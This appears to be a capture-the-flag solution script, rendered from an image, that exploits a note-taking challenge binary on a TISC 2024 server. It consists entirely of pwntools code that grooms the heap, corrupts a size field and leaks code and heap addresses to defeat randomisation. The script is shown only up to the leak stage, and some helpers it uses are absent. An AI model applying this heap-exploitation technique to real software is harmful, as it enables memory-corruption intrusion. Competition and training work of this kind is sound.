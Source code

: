 ```python

def view_feedback(amt):
    p.sendlineafter(b">", b"6")
    p.recvuntil(b"Your feedback: ")
    ret = p.recv(amt)
    p.recvuntil(b"Operation success")
    return ret

if args.DOCKER:
    context(terminal=['tmux', 'split-window', '-h'])

if args.NOGDB:
    p = process([exe.path], env = { "LD_PRELOAD": "./libsandbox.so" })
if args.GDB:
    p = gdb.debug([exe.path], env = { "LD_PRELOAD": "./libsandbox.so" })
elif args.LOCAL:
    p = process([exe.path], env = { "LD_PRELOAD": "./libsandbox.so" })
else:
    p = remote("chals.tisc24.ctf.sg", 28190)
    # p = remote("localhost", 5000)

# good luck pwning :)

for i in range(254):
    add_note(3, 0x20, p64(i))

p.sendlineafter(b">", b"7")

p.sendlineafter(b">", b"1")
get_feedback(b"\x00")
add_note(0, 0x20, b"\x00")
if args.LOCAL and not args.DOCKER:
    add_note(1, 0x20, b"\x00")
add_note(2, 0x100, b"\x00")

free_note(0)
if args.LOCAL and not args.DOCKER:
    free_note(1)

add_note(3, 0x20, p64(0))
free_note(3)

if args.LOCAL and not args.DOCKER:
    for i in range(252):
        add_note(3, 0x20, p64(i))
    # for i in range(248):
    #     add_note(3, 0x20, p64(i))
else:
    for i in range(254):
        add_note(3, 0x20, p64(i))

payload = flat(
    0x100,
)
edit_note(3, payload)

leak = view_note(0)
print_note = u64(leak[8:16])
sandboxed.address = u64(leak[8:16]) - 0xa8c3
# sandboxed.address = u64(leak[8:16]) - 0x9d39
heap = u64(leak[16:24])
print(hex(sandboxed.address))
print(hex(heap))
```